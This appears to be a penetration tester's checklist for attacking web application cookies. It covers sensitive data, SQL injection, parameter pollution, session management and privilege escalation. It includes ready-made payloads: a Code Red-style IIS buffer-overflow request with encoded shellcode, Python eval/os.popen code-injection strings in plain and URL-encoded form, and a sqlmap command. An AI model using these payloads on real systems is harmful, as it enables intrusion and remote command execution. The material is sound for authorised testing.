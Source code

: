 ```yaml
---
tags:
  - web-app-security
---
```

- [ ] sensetive Data Stored in Cookies

```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

- [ ] cookie length violation  
    leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

- [ ] Arbitrary Cookie injection

```
try injecting some arbitrary cookies using attack such as CRLF injection ,some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

- [ ] Mass Assignment

```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

- [ ] Danail of service - cookie Bomb

```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack<https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx>After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerableReferences: [Hackerone #105363](<https://hackerone.com/reports/105363>)
```

- [ ] SQL injection

```
How to inject the code in Cookies?There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_after error sqlmap -u "" --cookie="" -p "" --dbs
```

- [ ] parameter pollution

```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**4. Three things can happen here:- the application may retrieve data of victim data- the application may retrieve data of victim data and attacker data- the application is not retrieve data it is not vulnerability
```

- [ ] Authentication Bybass (cookie are not avalid)

```
try accessing a protected resource by removing cookies
```

- [ ] xss

```
assume that the value of the cookie parameter "name" is reflected in the applicationchange the "name" value to "xss payload"
```

- [ ] Insufficient session management

```
1. session doesnt expire on logout2. long session expirey3. session doesnt expire on password reset /change4. concurrent session
```

- [ ] privilege escalation

- horizontal

```
1.assume that the application uses mult-organization models2.cookie are used wich organized user can access3.alter the cookie in order to access some other application
```

- vertical

```
1.assume the cookie are used to determine the role of the user2.alter the cookie in order to elevate the role of the user
```

- similarly

```
1.try if the flower users cookies can be used to access higher users function2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

- [ ] sesion puzzing

```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```

- [ ] Exploiting Python Code Injection  
    this payload in cookie or contenttype or path or parameter

```
eval(compile('for x in range(1):\\n import time\\n time.sleep(20)','a','single'))
```

- [ ] OS command injection

```
**eval(compile("""for x in range(1):\\\\n import os\\\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```
**__import__('os').popen('COMMAND').read()**
```

- [ ] URL encode some characters

```
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression

```
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas

```
str("-"*50),__import__('os').popen('COMMAND').read()
```

- [ ] Insecure Deserialization

```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks. portswigger laps
```

- [ ] Electronic Code Book

- [ ] Pickle Code Execution

- [ ] Cipher block chaining

- [ ] file inclusion

- [ ] IDOR

- [ ] session fixation

- [ ] padding oracle attack

- [ ] JWT attack